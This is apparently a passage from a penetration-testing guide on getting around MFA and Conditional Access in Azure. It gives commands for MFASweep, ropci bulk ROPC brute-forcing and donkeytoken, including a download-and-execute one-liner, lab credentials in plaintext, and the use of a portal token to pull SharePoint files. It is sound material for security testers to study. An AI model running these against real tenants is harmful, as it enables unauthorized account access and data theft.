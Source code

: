 ```bash
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/dafthack/MFASweep/master/MFASweep.ps1").Content
Invoke-MFASweep -Username <username> -Password <pass>
```

### [ROPCI](https://github.com/wunderwuzzi23/ropci)

This tool has helped identify MFA bypasses and then abuse APIs in multiple production AAD tenants, where AAD customers believed they had MFA enforced, but ROPC based authentication succeeded.

> [!TIP]
> You need to have permissions to list all the applications to be able to generate the list of the apps to brute-force.

```bash
./ropci configure
./ropci apps list --all --format json -o apps.json
./ropci apps list --all --format json | jq -r '.value[] | [.displayName,.appId] | @csv' > apps.csv
./ropci auth bulk -i apps.csv -o results.json
```

### [donkeytoken](https://github.com/silverhack/donkeytoken)

Donkey token is a set of functions which aim to help security consultants who need to validate Conditional Access Policies, tests for 2FA-enabled Microsoft portals, etc..

<pre class="language-powershell"><code class="lang-powershell"><strong>git clone https://github.com/silverhack/donkeytoken.git
</strong><strong>Import-Module '.\donkeytoken' -Force
</strong></code></pre>

**Test each portal** if it's possible to **login without MFA**:

```bash
$username = "conditional-access-app-user@azure.training.hacktricks.xyz"
$password = ConvertTo-SecureString "Poehurgi78633" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
Invoke-MFATest -credential $cred -Verbose -Debug -InformationAction Continue
```

Because the **Azure** **portal** is **not constrained** it's possible to **gather a token from the portal endpoint to access any service detected** by the previous execution. In this case Sharepoint was identified, and a token to access it is requested:

```bash
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```

Supposing the token has the permission Sites.Read.All (from Sharepoint), even if you cannot access Sharepoint from the web because of MFA, it's possible to use the token to access the files with the generated token:

```bash
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```

## References

- [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM&t=296s)
- [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{{#include ../../../../banners/hacktricks-training.md}}



